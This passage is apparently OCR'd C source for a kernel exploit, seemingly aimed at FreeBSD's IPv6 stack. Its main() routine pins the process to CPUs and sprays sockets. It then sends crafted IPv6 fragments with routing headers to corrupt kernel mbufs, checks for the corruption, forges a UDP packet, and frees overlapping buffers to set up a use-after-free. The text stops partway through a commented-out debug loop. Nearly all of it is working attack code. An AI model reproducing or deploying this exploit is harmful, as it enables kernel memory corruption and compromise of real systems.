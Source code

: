 int main(void)
{
    cpuset_t xxx;
    CPU_ZERO(&xxx);
    CPU_SET(2, &xxx);
    cpuset_setaffinity(CPU_LEVEL_WHICH, CPU_WHICH_PID, getpid(), sizeof(xxx), &xxx);
    int huge_spray[HUGE_SPRAY_SIZE];
    for(int i = 0; i < HUGE_SPRAY_SIZE; i++)
        huge_spray[i] = socket(AF_INET6, SOCK_DGRAM, 0);
    int sock = socket(AF_INET6, SOCK_RAW, IPPROTO_HOPOPTS);
    int socks[SPRAY_SIZE];
    for(int i = 0; i < SPRAY_SIZE; i++)
        socks[i] = create_loopback();
        //socketpair(AF_INET, SOCK_DGRAM, 0, socks+2*i);
    int small_spray[SMALL_SPRAY_SIZE];
    for(int i = 0; i < SMALL_SPRAY_SIZE; i++)
        small_spray[i] = create_loopback();
    char buf[RTHDR_1_SZ + RTHDR_2_SZ];
    build_rthdr(buf, RTHDR_1_SZ);
    build_rthdr(buf + RTHDR_1_SZ, RTHDR_2_SZ);
    send_fragment(sock, buf, 0, FIRST_FRAGMENT_SZ, 0);
    send_fragment(sock, buf, FIRST_FRAGMENT_SZ, sizeof(buf) - FIRST_FRAGMENT_SZ, 1);
    nanosleep((void*)"\0\0\0\0\0\0\0\0\x10\x27\0\0\0\0\0\0", 0);
    CPU_ZERO(&xxx);
    CPU_SET(0, &xxx);
    cpuset_setaffinity(CPU_LEVEL_WHICH, CPU_WHICH_PID, getpid(), sizeof(xxx), &xxx);
#define FORALL for(int i = 0; i < SPRAY_SIZE; i++)
    int q;
    FORALL push_mbuf(socks, i);
    char delayed_pkt[20];
    *(uint32_t*)(delayed_pkt+16) = 0x41414141;
    send_fragment(sock, delayed_pkt, 16, 4, 1);
    for(int i = 0; i < SMALL_SPRAY_SIZE; i++)
        push_mbuf(small_spray, i);
    int bad1 = -1, bad2 = -1;
    FORALL if((q = peek_mbuf(socks, i)) != i)
    {
        bad1 = i;
        bad2 = q;
    }
    if(bad1 < 0 || bad2 < 0)
    {
        printf("fatal: no corruption\n");
        return 1;
    }
    build_rthdr(delayed_pkt, 8);
    delayed_pkt[0] = 17; // udp
    uint16_t bad1_port = get_port(socks[bad1]);
    *(uint16_t*)(delayed_pkt+8) = *(uint16_t*)(delayed_pkt+10) = bad1_port;
    delayed_pkt[12] = 0;
    delayed_pkt[13] = 12;
    *(uint16_t*)(delayed_pkt+14) = port_to_csum(bad1_port);
    send_fragment(sock, delayed_pkt, 0, 16, 0);
    nanosleep((void*)"\1\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0", 0);
    pop_mbuf(socks, bad1);
    pop_mbuf(socks, bad2);
    /*for(int i = SPRAY_SIZE-SMALL_SPRAY_SIZE; i < SPRAY_SIZE; i++)
    {
        printf("%d ", i-SPRAY_SIZE);
        fflush(stdout);
        print_mbuf_addr(socks[i]);
    }
    printf("-0 ");
    fflush(stdout);